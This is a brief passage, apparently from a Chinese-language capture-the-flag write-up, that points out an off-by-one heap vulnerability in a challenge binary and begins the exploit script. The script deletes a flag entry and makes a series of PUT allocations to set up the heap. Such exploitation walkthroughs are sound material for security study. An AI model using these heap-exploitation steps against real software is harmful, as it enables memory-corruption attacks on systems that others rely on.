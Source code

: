 ![17](/chunk_offbyone/17.png)

红框下面的v1=0，存在off by one漏洞。



参考https://bbs.pediy.com/thread-246966.htm，利用过程如下

```python
DEL("th3fl4g")  #delet th3fl4g

PUT("A"*0x8, 0x80, p8(1)*0x80)
PUT("B"*0x8, 0x18, p8(2)*0x18)
PUT("C"*0x8, 0x60, p8(3)*0x60)
PUT("D"*0x8, 0xf0, p8(4)*0xf0)
```

